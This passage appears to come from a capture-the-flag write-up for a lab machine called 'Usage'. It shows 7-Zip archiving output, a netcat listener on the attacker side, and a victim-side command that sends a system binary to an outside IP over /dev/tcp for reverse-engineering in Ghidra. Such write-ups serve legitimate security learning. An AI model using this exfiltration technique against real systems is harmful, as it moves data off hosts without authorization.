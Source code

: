 ```cmdbash
2984 folders, 17969 files, 113884001 bytes (109 MiB)                        

Creating archive: /var/backups/project.zip

Items to compress: 20953

                                                                               
Files read from disk: 17969
Archive size: 54840285 bytes (53 MiB)
Everything is Ok
```

I will transfer the binary to my machine to analyze it with ghidra:

**Attacker machine**:
```bash
❯ nc -lvnp 443 > usage_management
listening on [any] 443 ...
```

**Victim machine**:
```bash
xander@usage:~$ cat /usr/bin/usage_management > /dev/tcp/10.10.15.95/443
```

Now I will select "File" > "New Project", select the folder for the project and click "Finish":

![new project ghidra](/assets/images/Usage/new-project-ghidra.png)
